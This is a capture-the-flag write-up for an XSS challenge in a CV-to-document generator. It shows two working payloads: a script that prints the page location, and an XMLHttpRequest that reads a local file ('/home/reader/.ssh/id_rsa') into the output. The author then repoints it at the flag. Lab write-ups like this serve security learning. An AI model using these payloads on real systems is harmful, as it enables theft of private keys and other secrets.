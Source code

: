 ### Cvg3n3rat0r

Points: 102
Solves: 38

Ever wanted to get hired by your favourite E-corp? Generate your brand new CV and get hired every time.

BTW, have you ever heard the joke about putting your resume on the bosses computer? While that's probably a bad idea, grabbing the flag from /flag.txt
most definitely isn't!

Now with W3schools support!

http://cvgenerator.zajebistyc.tf

I knew the atack that was needed was xss but i needed to find out how to exploit the system. The first few lines were <p> paragraph tags with <b> bold inside of them. I used my previous knowledge to inject <script> tags. I realized that document.location.href was needed so i added that. I was then given the /tmp directory it was located in.

```
<script>document.write(document.location.href)</script>
```
  
  I found a medium article by r3d-buck3t to exfil xss
  
Medium(https://medium.com/r3d-buck3t/xss-to-exfiltrate-data-from-pdfs-f5bbb35eaba7)
  
  after slowly looking around the page i noticed one i thought would work.
  
```  
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```  
  
  I switched the file path to what i needed which was "file:///flag.txt"
  
  After 20 attempts I finally achieved my answer.
